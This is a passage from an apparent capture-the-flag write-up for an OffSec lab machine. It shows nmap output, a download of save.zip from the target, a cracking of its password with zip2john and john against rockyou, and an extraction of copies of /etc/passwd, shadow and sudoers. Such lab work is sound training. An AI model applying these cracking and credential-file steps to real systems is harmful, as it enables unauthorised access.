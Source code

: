 ```shell
NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 04:09
Completed NSE at 04:09, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 04:09
Completed NSE at 04:09, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 04:09
Completed NSE at 04:09, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.74 seconds
```

```http
http://192.168.224.85/
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/88c19013-ae23-4dc3-a70b-e07b36990ac0)
```http
http://192.168.224.85/save.zip
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/82622edc-9a9b-4ae1-adc5-e7b5a0fe05e3)

Crack Zipped File
```shell
> zip2john save.zip > save.hash
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/2894c428-e5bd-4ece-9925-4ac9c70cd115)

```shell
> john --wordlist=/usr/share/wordlists/rockyou.txt save.hash
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/2f656a59-911a-4b4f-a321-0a14c05dee0c)

```shell
password: manuel
```

```shell
> unzip save.zip
Archive:  save.zip
[save.zip] etc/passwd password: 
  inflating: etc/passwd              
  inflating: etc/shadow              
  inflating: etc/group               
  inflating: etc/sudoers             
  inflating: etc/hosts               
 extracting: etc/hostname 
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/23eb7457-c8da-451a-9669-b5ca0dc29723)

```shell
> cd etc
> ls -lah
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/99024b6e-1de5-4cfa-812c-a7f63d513f8e)
